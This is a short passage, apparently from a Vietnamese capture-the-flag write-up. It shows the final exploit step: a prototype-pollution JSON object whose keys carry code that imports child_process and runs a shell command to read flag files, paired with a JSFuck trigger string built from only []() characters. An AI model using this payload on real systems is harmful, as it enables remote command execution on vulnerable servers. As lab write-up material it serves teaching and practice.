
Bây giờ chỉ cần chuyển sang Jsfuck với 4 kí tự `[]()` là xong.

```js
INPUT_JSON = {
  "constructor": {
    "prototype": {
      "": "import('child_process').then(a=>a.execSync).then(b=>b('cat /flag*')).then(c=>console.log(String(c)))",
      "import('child_process').then(a=>a.execSync).then(b=>b('cat /flag*')).then(c=>console.log(String(c)))": "constructor"
    }
  }
}
INPUT_CODE = "[][[][[][[]]]][[][[][[]]]]([][[]])()"
console.log(JSON.stringify(INPUT_JSON));
console.log(INPUT_CODE);
```
